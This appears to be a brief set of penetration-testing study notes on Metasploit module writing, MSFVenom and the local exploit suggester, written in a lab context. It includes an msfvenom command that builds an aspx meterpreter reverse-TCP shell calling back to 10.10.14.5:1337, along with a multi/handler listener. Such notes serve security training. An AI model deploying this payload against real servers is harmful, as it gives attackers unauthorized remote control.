 To adapt Python, PHP, or any type of exploit script into a Metasploit module, we need to know the Ruby programming language. Ruby modules for metasploit are always written using hard tabs.

There is a lot of stuff here. Hopefully you don't have to write your own metasploit modules  

<br />

## Introduction to MSFVenom

MSFVenom is the successor to MSFPayload and MSFEncode, two standalone scripts that used to work in conjunction with msfconsole to provide users with highly customizable and hard-to-detect payloads for their exploits  

**Basic example:** reverse tcp connection  
In this example we get anonymous access to an FTP server, which can run .aspx scripts  
We use msfvenom to generate a reverse_tcp meterpreter shell in aspx format. `-f` specifies the format, `-p` stands for 'payload':  
`msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.5 LPORT=1337 -f aspx > reverse_shell.aspx`  
Once the shell is uploaded, assuming we have a way to run it, we can use `multi/handler` to listen for the connection back:  
`msf6 > use multi/handler`  
This is basically like a metasploit netcat listener. Need to specify the LHOST and the LPORT  

<br />

## Local Exploit Suggester

This is sort of a random tip. There is a post module called local_exploit_suggestor which you can run on a session and it will tell you some potential vulnerabilities of the target machine  
